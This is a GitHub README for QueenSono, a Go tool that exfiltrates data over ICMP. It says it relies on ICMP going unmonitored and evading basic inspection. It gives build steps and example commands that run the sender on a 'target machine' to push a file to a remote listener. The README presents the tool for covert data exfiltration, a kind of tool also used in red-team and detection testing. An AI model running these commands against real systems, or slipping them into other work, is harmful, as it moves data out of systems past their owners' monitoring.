 
  <h1 align="center">QueenSono <i> ICMP Data Exfiltration </i></h1>
<h4 align="center"> A Golang Package for Data Exfiltration with ICMP protocol. </h4>
  <p align="center">
  QueenSono tool only relies on the fact that ICMP protocol isn't monitored. It is quite common. It could also been used within a system with basic ICMP inspection (ie. frequency and content length watcher). Try to imitate <a href="https://github.com/ytisf/PyExfil">PyExfil</a> (and others) with the idea that the target machine does not necessary have python installed (so provide a binary could be useful)
    <br />
    <strong>
    <a href="https://github.com/othneildrew/Best-README-Template">How to install it</a>
    .
    <a href="https://github.com/othneildrew/Best-README-Template">Use it</a>
    ·
    <a href="https://github.com/othneildrew/Best-README-Template/issues">Notes</a>
    ·
    <a href="https://github.com/ariary/QueenSono/issues">Request Feature</a>
  </strong>
  </p>
</p>

## Install
 *\> Install the binary from source*
Clone the repo and download the dependencies locally:
```    
git clone https://github.com/ariary/QueenSono.git
make before.build
```

 To build the ICMP packet sender `qssender` :

     build.queensono-sender
    

 To build the ICMP packet receiver `qsreceiver` :

     build.queensono-receiver

## Usage

`qssender` is the binary which will send ICMP packet  to the listener , so it is the binary you have to transfer on your target machine. `qsreceiver` is the listener on your local machine (or wherever you can receive icmp packet)

All commands and flags of the binaries could be found using `--help`

### Example 1: Send with "ACK"
*\> In this example we want to send a big file and look after echo reply to ackowledge the reception of the packets (ACK).*

On my local machine:

    $ qsreceiver receive -l 0.0.0.0 -p -f received_bible.txt
 

 - `-l 0.0.0.0` listen on all interfaces for ICMP packet
 - `-f received_bible.txt` save received data in a text
 - `-p` show a progress bar of received data

On target machine:

    $ wget https://raw.githubusercontent.com/mxw/grmr/master/src/finaltests/bible.txt #download a huge file (for the example)
    $ qssender send file -d 2 -l 127.0.0.1 -r 10.0.0.92 -s 50000 bible.txt

<details>
  <summary>Explanation</summary>
  <ol>
    <li>
    <code>send file</code> for sending file (`bible.txt` is the file in question)
    </li>
    <li>
      <code>-d 2</code> send a packet each 2 seconds
    </li>
    <li><code>-l 127.0.0.1</code> the listening address for *echo reply* </li>
    <li><code>-r 10.0.0.92</code>` the address of my remote machine with `qsreceiver` listening</li>
    <li><code>-s 50000</code> the data size I want to send in each packet</li>
  </ol>
</details>



